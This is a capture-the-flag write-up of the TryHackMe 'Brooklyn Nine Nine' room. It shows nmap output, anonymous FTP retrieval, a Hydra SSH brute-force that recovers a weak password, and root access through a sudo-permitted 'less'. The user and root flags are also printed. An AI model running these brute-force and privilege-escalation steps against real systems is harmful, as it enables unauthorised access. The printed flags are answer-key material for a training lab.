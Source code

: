 ## Brooklyn Nine Nine - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/brooklynninenine)

<i>This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box. If you find more dm me in discord at Fsociety2006.</i>

**IP: 10.10.66.96**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation, Brute Force <br>

**Tools Used**: Nmap, Hydra<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20CUT.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting with Nmap, I also ran Gobuster but it didn't find anything useful.

  ```
  nmap -sC -sV -T5 -p- 10.10.66.96

  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     vsftpd 3.0.3
  | ftp-anon: Anonymous FTP login allowed (FTP code 230)
  |_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
  | ftp-syst: 
  |   STAT: 
  | FTP server status:
  |      Connected to ::ffff:10.8.120.52
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      At session startup, client count was 3
  |      vsFTPd 3.0.3 - secure, fast, stable
  |_End of status
  22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
  |   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
  |_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
  80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
  |_http-server-header: Apache/2.4.29 (Ubuntu)
  |_http-title: Site doesn't have a title (text/html).
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  ```
  
- Since port 21 is open and allows Anonymous access let's get inside and download all necessary files.

  ```
  ftp 1.10.66.96
  230 Login successful.
  Remote system type is UNIX.
  Using binary mode to transfer files.
  ftp> pwd
  Remote directory: /
  ftp> ls
  229 Entering Extended Passive Mode (|||42102|)
  150 Here comes the directory listing.
  -rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
  226 Directory send OK.
  ftp> get note_to_jake.txt
  local: note_to_jake.txt remote: note_to_jake.txt
  229 Entering Extended Passive Mode (|||51690|)
  150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
  100% |************************************************************************|   119      203.52 KiB/s    00:00 ETA
  226 Transfer complete.
  119 bytes received in 00:00 (2.48 KiB/s)
  ```
  
- After reading the note we can see that one user is using weak credentials which means brute forcing will pay out.

  ```
  cat note_to_jake.txt 
  From Amy,
  
  Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
  ```

  ```
  hydra -l jake -P /rockyou.txt 10.10.66.96 ssh      
  Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
  
  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-12 13:36:41
  [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
  [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
  [DATA] attacking ssh://10.10.66.96:22/
  [22][ssh] host: 10.10.66.96   login: jake   password: 987654321
  1 of 1 target successfully completed, 1 valid password found
  [WARNING] Writing restore file because 2 final worker threads did not complete until end.
  [ERROR] 2 targets did not resolve or could not be connected
  [ERROR] 0 target did not complete
  Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-12 13:36:44
  ```

- Beautiful, let's now login with SSH and get those flags!

---

## 🧍 User Privilege Escalation

- As always, user flag is already there.

  ```
  jake@10.10.66.96's password: 
  Last login: Tue May 26 08:56:58 2020
  jake@brookly_nine_nine:~$ whoami
  jake
  
  jake@brookly_nine_nine:~$ id
  uid=1000(jake) gid=1000(jake) groups=1000(jake)
  
  jake@brookly_nine_nine:/home$ cd holt
  jake@brookly_nine_nine:/home/holt$ ls -al
  total 48
  drwxr-xr-x 6 holt holt 4096 May 26  2020 .
  drwxr-xr-x 5 root root 4096 May 18  2020 ..
  -rw------- 1 holt holt   18 May 26  2020 .bash_history
  -rw-r--r-- 1 holt holt  220 May 17  2020 .bash_logout
  -rw-r--r-- 1 holt holt 3771 May 17  2020 .bashrc
  drwx------ 2 holt holt 4096 May 18  2020 .cache
  drwx------ 3 holt holt 4096 May 18  2020 .gnupg
  drwxrwxr-x 3 holt holt 4096 May 17  2020 .local
  -rw-r--r-- 1 holt holt  807 May 17  2020 .profile
  drwx------ 2 holt holt 4096 May 18  2020 .ssh
  -rw------- 1 root root  110 May 18  2020 nano.save
  -rw-rw-r-- 1 holt holt   33 May 17  2020 user.txt
  
  jake@brookly_nine_nine:/home/holt$ cat user.txt 
  ee11cbb19052e40b07aac0ca060c23ee
  ```
  
- Moving to escalation.

---

## 👑 Root Privilege Escalation

- This one wasn't hard as well, when you run `sudo -l` you will see it with your own eyes.

  ```
  jake@brookly_nine_nine:/home/holt$ sudo -l
  Matching Defaults entries for jake on brookly_nine_nine:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User jake may run the following commands on brookly_nine_nine:
      (ALL) NOPASSWD: /usr/bin/less
      
  jake@brookly_nine_nine:/home/holt$ sudo less /root/root.txt
  
  -- Creator : Fsociety2006 --
  Congratulations in rooting Brooklyn Nine Nine
  Here is the flag: 63a9f0ea7bb98050796b649e85481845
  
  Enjoy!!
  ```
  
- We will meet in the next one, bye! 

---

## 🏁 Flags

- **User Flag**: `ee11cbb19052e40b07aac0ca060c23ee`
- **Root Flag**: `63a9f0ea7bb98050796b649e85481845`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Pretty basic room tho.`

- What did I learn?
  `Nothing new, just sharpening my skillzzzzz.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
